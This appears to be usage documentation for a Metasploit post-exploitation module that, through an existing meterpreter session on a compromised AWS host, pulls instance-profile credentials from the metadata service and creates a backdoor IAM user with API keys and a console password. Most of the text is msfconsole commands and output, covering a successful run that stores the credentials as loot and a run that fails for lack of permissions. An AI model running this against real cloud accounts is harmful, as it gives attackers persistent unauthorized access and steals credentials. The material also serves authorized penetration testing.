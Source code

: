 Here we are assuming that we have taken over a host having an instance profile with
overly permissive access. Once a session is established, we can load
`aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1` and run the exploit.

```
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254 - looking for creds...
[*] Creating user: gavgpsjXwj5HIxiz
[*] Creating group: gavgpsjXwj5HIxiz
[*] Creating group policy: gavgpsjXwj5HIxiz
[*] Adding user (gavgpsjXwj5HIxiz) to group: gavgpsjXwj5HIxiz
[*] Creating API Keys for gavgpsjXwj5HIxiz
[*] Creating password for gavgpsjXwj5HIxiz
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
gavgpsjXwj5HIxiz  gavgpsjXwj5HIxiz  oX4csvu3Wun+GqVDzBHQ3FNfv41UhC4ibkLAmaW2  AKIAJRZQ2ENY45KKRBHQ  gavgpsjXwj5HIxiz  xxxxx

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://xxxxx.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /Users/yyyy/.msf4/loot/20161208140720_default_172.30.0.116_AWScredentials_099259.txt
```

If the host does not have an instance profile or the right access, the output will look like so:

```
[*] 169.254.169.254 - looking for creds...
[*] Creating user: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::abcd:user/3SFFML3ucP1AyP7J
[*] Creating group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateGroup on resource: arn:aws:iam::abcd:group/3SFFML3ucP1AyP7J
[*] Creating group policy: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:PutGroupPolicy on resource: group 3SFFML3ucP1AyP7J
[*] Adding user (3SFFML3ucP1AyP7J) to group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:AddUserToGroup on resource: group 3SFFML3ucP1AyP7J
[*] Creating API Keys for 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateAccessKey on resource: user 3SFFML3ucP1AyP7J
[*] Post module execution completed
```
